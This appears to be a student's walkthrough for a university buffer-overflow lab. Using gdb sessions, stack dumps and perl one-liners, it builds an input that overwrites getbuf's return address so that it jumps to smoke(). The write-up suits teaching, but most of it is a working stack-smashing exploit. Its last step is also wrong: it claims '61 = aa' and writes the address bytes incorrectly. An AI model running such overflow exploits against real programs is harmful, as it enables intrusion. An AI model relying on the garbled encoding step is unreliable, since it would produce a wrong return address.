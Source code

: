 Goal = provide a string longer than getbuf can handle causing an overflow and pushing the rest of the string onto the stack where you can then control where the function getbuf returns after exection.

Main Steps:

1. locate the address of the function ```smoke()```

   To find the address of function ```smoke()``` type:
   ```unix> objdump -d bufbomb | less```
 
   My address for ```smoke()``` = 080490aa <smoke>:

   <b>write down the address for ```smoke()``` as you will be using it later</b>


2. calculate the length of the string size to cause an overflow
   ```
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) run -u quinnliu
   (gdb) break *getbuf+17
   (gdb) disas
   (gdb) info registers
   ```

   Gives you:

   ```
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
   => 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
      0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   (gdb) info registers
   eax            0x45789ae        72845742
   ecx            0x45789ae        72845742
   edx            0x3c1048 3936328
   ebx            0x0      0
   esp            0x55683318       0x55683318
   ebp            0x55683350       0x55683350
   esi            0x55686018       1432903704
   edi            0xc60    3168
   eip            0x8048c0a        0x8048c0a <getbuf+6>
   eflags         0x216    [ PF AF IF ]
   cs             0x23     35
   ss             0x2b     43
   ds             0x2b     43
   es             0x2b     43
   fs             0x0      0
   gs             0x63     99
   (gdb)
   ```

   Remember that the goal is to push a string that goes one address beyond the location of %ebp. 

   <b>write down %ebp address as you will be using it later. In my case:</b>

   %ebp = 0x55683350 

   getBuf() will take 32 characters. To modify the return address, we will need the buffer to extend to the address space right after %ebp on the stack or (%ebp)+4. So 32 bytes will be allocated to the buf variable for getbuf(). We need to look at the stack to determine the rest of the buffer size.

   Now quit out
   ```
   (gdb) q
   A debugging session is active.

           Inferior 1 [process 29088] will be killed.

   Quit anyway? (y or n) y
   ```

   Now create a test input file called "hex" and type a few commands
   ```
   unix> perl -e 'print "A"x32 '> hex
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) break *getbuf+17
   (gdb) run -u quinnliu < hex
   (gdb) x/20x $esp
   (gdb) disas
   ```

   Gives you:

   ```
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683330      0x00263b36      0x003c132c      0x55683328
   0x55683328 <_reserved+1037096>: 0x41723de3      0x00000000      0x55683350      0x08048b48
   0x55683338 <_reserved+1037112>: 0x00007399      0x5568338c      0x00000001      0x00000000
   0x55683348 <_reserved+1037128>: 0x55683370      0x003c0ff4      0x55683380      0x08048c93
   0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
   => 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
      0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   ```

   Next type these commands:
   ```
   (gdb) continue
   (gdb) disas # notice that we are now at <+17>
   (gdb) x/20x $esp
   ```

   Gives you:
   ```
   (gdb) continue
   Continuing.

   Breakpoint 2, 0x08048c15 in getbuf ()
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
      0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
   => 0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683328      0x00263b36      0x003c132c      0x55683328
   0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141      0x41414141
   0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141      0x41414141
   0x55683348 <_reserved+1037128>: 0x55683300      0x003c0ff4      0x55683380      0x08048c93
   0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
   ```

   We can see that the "buf" variable stores its 32 byte string on the stack. Starting at address 0x55683328 and ending right before 0x55683348.

   startingAddressOfBufVariable = 0x55683328
   %ebp = 0x55683350 # I told you to write this down earlier

   buffer size = addressAt%ebp+4 - startingAddressOfBufVariable
               = 0x55683350   +4 - 0x55683328
               # make sure to use a hex calculator like this one: http://www.squarebox.com/legacy/hcalc.html
               = 2C # in hexadecimal = 44 bytes # in decimal

   We know that 32 bytes are used to store the "buf" variable as seen when we print out the registers after giving the "hex" file as input

   44 - 32 = 12 bytes left to fill the stack right before the return address(<= WHOLE POINT IS TO MANIPULATE THIS)

   Now quit out of gdb with ```q``` command and type:


3. create the buffer overflow string

   ```
   bash-4.1$ perl -e 'print "A"x32 ,"B"x4, "C"x4, "D"x4 '>hex2
   bash-4.1$ ls
   bufbomb  exploit.txt  hex  hex2  hex2raw  makecookie
   bash-4.1$ less hex2
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD

   Now use hex2 as your new input in gdb:
   ```
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) break *getbuf+17
   (gdb) run -u quinnliu < hex2
   (gdb) x/20x $esp
   (gdb) continue
   (gdb) x/20x $esp 
   ```

   On the second call of ```(gdb) x/20x $esp``` you will see:

   ```
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683328      0x00bafb36      0x00d0d32c       0x55683328
   0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141       0x41414141
   0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141       0x41414141
   0x55683348 <_reserved+1037128>: 0x42424242      0x43434343      0x44444444       0x08048c00
   0x55683358 <_reserved+1037144>: 0x55683380      0x00bca610      0x55686018       0x00000c60
   (gdb)
   ```

   Understand that our input file is:
   ```AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD```
   where A = 41, B = 42, C = 43, & D = 44

   So DDDD = 0x44444444

   After DDDD is 0x08048c00 <= THIS IS THE RETURN ADDRESS WE BE CHANGE the address of ```smoke()```!!!!!

4. force the function getbuf to return to fucntion ```smoke()``` instead of returning the value 1.

   Find where you wrote down the address of ```smoke()``` earlier. Mine is = 080490aa

   Because my machine is little endian the least significant byte is first.

   So 
   ```08 04 90 aa``` => ```aa 90 04 08```

   Now exit out of gdb:
   ```
   bash-4.1$ perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "61 90 04 08" '>hex3
   ```
   WHERE 61 = aa

   Now using the hex2raw executable file you can convert the hex3 text file into a raw file to be submitted as your answer to the bufferbomb.

   Type:
   ```./hex2raw < hex3 > raw```

5. Almost there!!!!!!!!!!

   Now actually give your "raw" file as input to the Buffer Bomb:
   ```./bufbomb -u quinnliu < raw```

   And you should get the following output:
   ```
   Userid: quinnliu 
   Cookie: 0x2d8cc70c
   Type string:Smoke!: You called smoke()
   VALID
   NICE JOB!
   ```